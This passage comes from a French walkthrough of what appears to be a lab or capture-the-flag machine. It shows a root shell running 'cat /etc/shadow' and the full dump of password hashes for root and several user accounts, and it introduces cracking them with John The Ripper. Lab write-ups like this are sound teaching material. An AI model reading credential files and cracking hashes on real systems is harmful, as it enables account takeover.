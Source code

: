 C'est gagné, nous sommes root !

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier /etc/shadow. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil John The Ripper est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers /etc/passwd et /etc/shadow, comme suit...

```console
sh-3.2# cat /etc/shadow
cat /etc/shadow
root:$1$Ak2GEFmW$6iOwo7maaMRENjSG/mG.J.:14423:0:99999:7:::
bin:*:14397:0:99999:7:::
daemon:*:14397:0:99999:7:::
adm:*:14397:0:99999:7:::
lp:*:14397:0:99999:7:::
sync:*:14397:0:99999:7:::
shutdown:*:14397:0:99999:7:::
halt:*:14397:0:99999:7:::
mail:*:14397:0:99999:7:::
news:*:14397:0:99999:7:::
uucp:*:14397:0:99999:7:::
operator:*:14397:0:99999:7:::
games:*:14397:0:99999:7:::
gopher:*:14397:0:99999:7:::
ftp:*:14397:0:99999:7:::
nobody:*:14397:0:99999:7:::
rpm:!!:14397:0:99999:7:::
dbus:!!:14397:0:99999:7:::
avahi:!!:14397:0:99999:7:::
mailnull:!!:14397:0:99999:7:::
smmsp:!!:14397:0:99999:7:::
distcache:!!:14397:0:99999:7:::
apache:!!:14424:0:99999:7:::
nscd:!!:14397:0:99999:7:::
vcsa:!!:14397:0:99999:7:::
rpc:!!:14397:0:99999:7:::
rpcuser:!!:14397:0:99999:7:::
nfsnobody:!!:14397:0:99999:7:::
sshd:!!:14397:0:99999:7:::
squid:!!:14397:0:99999:7:::
mysql:!!:14397:0:99999:7:::
pcap:!!:14397:0:99999:7:::
haldaemon:!!:14397:0:99999:7:::
dovecot:!!:14418::::::
john:$1$mWFcMD52$Cnk.XsZ.vxpNIjMcRn8AP0:14419:0:99999:7:::
linda:$1$KDqdFFfU$wNrRtbShFLx5R7I/YWLMR1:14419:0:99999:7:::
fred:$1$jgdM97Rl$.nRcphYfCDGkWe0X7p7p/0:14419:0:99999:7:::
molly:$1$90uKe4zN$Y5pqf0NGx2aVLBxBTXZHh0:14419:0:99999:7:::
toby:$1$2vgQS3Bq$p4Aq.m1RYM3iWopT6Izg51:14419:0:99999:7:::
```
